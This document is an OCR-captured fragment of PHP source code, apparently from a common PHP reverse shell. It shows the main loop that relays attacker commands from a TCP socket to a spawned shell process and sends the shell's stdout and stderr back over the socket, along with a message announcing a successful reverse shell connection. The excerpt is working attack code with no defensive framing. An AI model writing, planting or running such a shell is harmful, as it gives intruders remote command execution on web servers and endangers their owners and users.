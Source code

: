 ```

// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	// Check for end of TCP connection
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	// Check for end of STDOUT
	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	// Wait until a command is end down $sock, or some
	// command output is available on STDOUT or STDERR
	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	// If we can read from the TCP socket, send
	// data to process's STDIN
	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	// If we can read from the process's STDOUT
	// send data down tcp connection
	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	// If we can read from the process's STDERR
	// send data down tcp connection
	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

// Like print, but does nothing if we've daemonised ourself
```